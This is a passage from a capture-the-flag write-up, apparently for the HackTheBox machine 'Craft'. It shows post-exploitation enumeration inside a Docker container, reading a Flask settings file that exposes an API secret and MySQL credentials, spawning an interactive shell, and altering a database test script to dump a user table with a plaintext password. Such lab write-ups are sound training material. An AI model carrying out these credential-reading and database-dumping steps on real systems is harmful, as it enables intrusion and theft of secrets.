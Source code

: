     :::text
    cat release_agent
    /var/lib/docker/overlay2/28e271a4328612a47294bbae8c8b7f01470e29454eef499b5beda147a55000e0/diff/c
    uname -a
    Linux 5a3d243127f5 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 Linux
    cat /proc/1/cgroup
    10:pids:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    9:memory:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    8:blkio:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    7:perf_event:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    6:net_cls,net_prio:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    5:freezer:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    4:devices:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    3:cpuset:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    2:cpu,cpuacct:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    1:name=systemd:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c

## MySQL

We explorer the application folder and found some database settings.

    :::text
    cat craft_api/settings.py
    # Flask settings
    FLASK_SERVER_NAME = 'api.craft.htb'
    FLASK_DEBUG = False  # Do not use debug mode in production

    # Flask-Restplus settings
    RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
    RESTPLUS_VALIDATE = True
    RESTPLUS_MASK_SWAGGER = False
    RESTPLUS_ERROR_404_HELP = False
    CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

    # database
    MYSQL_DATABASE_USER = 'craft'
    MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
    MYSQL_DATABASE_DB = 'craft'
    MYSQL_DATABASE_HOST = 'db'
    SQLALCHEMY_TRACK_MODIFICATIONS = False

In order to have a "better" shell we can use `/bin/sh -i`

There is a `dbtest.py` script that allow us to test the connection to the
database. We cat that script in a new one in order to change the SQL line to
list the `users`'s table. At first I tried with a `from users`. As there was no
result I tried with the following:

    :::text
    /opt/app # head -n 15 dbtest.py > dbtest2.py
    /opt/app # echo '        sql = "SELECT * from user"' >>dbtest2.py
    /opt/app # echo '        sql = "SELECT * from user"' >>dbtest2.py
    /opt/app # tail -n 6 dbtest.py >> dbtest2.py
    /opt/app # python dbtest2.py
    {'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
